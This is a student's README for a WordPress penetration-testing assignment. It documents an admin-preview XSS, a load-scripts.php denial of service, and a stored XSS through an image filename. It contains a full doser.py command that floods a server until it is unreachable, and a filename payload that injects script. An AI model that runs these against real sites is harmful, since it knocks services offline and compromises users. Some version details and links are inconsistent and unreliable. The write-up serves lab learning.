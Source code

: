 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [ ] Summary: One of the callback functions remove the potential for JavaScript to be executed, it removes "onclick='", but continues to run the request without the "onclick='" function. We can use "onmouseover" after the "onclick=" function is removed, allowing us to use XSS. You do have to be an admin to be able to run this, but if you can get the admin to click a malicious link beforehand, it will work.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Once you have your script ready, post it as a comment on any post on a WordPress page. Once the comment is posted, either scroll up for the script to be activated, or refresh the page and it will activate. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: WordPress contains a feature that lets a browser load multiple JS/CSS files with a single script (uses load-scripts.php)
                 To prevent DoS attacks, WordPress has protected against a user asking for the same module multiple times in a single                      request. However, if you ask it to load ALL the JS modules, it proceeds with the request, with a response that is 4 MB                    data sent in 2.2 seconds. A python script is written to repeat this requst of ALL the modules, and results in a DoS                        causing the server to become unreachable. 
    - Vulnerability types: DoS - Denial of Service
    - Tested in version: 4.2
    - Fixed in version: Unpatched
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Download the python script from https://github.com/quitten/doser.py, and run the following command: 
  ```python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999``` The script is now running, and the WordPress site should be unreachable. If you want to stop the script, either close the terminal window or terminate the script using CTRL + C.
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/load-scripts.php)
3. WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: This is a stored XSS exploit which uses an image. You insert JavaScript into the name of a JPG file, upload it to your WordPress media library, open up the attachment page of the picture, and the script runs once the broken image icon is clicked. The reason you have to save the image to your library and open it up is because it is a stored XSS exploit. The script only runs once someone clicks the broken image link.
    - Vulnerability types: Stored XSS
    - Tested in version: 4.0
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: You can download any image as a jpg, make the filename ```name<img src=a onclick=alert('string')>.jpg```. Once you have this file downloaded, log onto WordPress as an admin, click "Media" on the left side of the page, and add the picture you made earlier to your library. Click the library again to see your picture uploaded, click on it, click "view attachment page" at the bottom of the page, click the broken image icon, and your XSS will pop up on the screen.  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

Exploit 2 Python Script - https://github.com/quitten/doser.py

## Resources

- [Vagrant](https://core.trac.wordpress.org/browser/)
- [Exploit 3 Explanation](https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html)
- [Exploit 2 Explanation]
(https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)
- [Exploit 1 Explanation]
(https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

GIFs created with [Giphy](https://itunes.apple.com/us/app/giphy-capture-the-gif-maker/id668208984?mt=12).

## Notes

Fun assignment, the exploits did take some trial and error but they did end up working for me. 
## License

    Copyright [2018] [Sevak Papanyan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

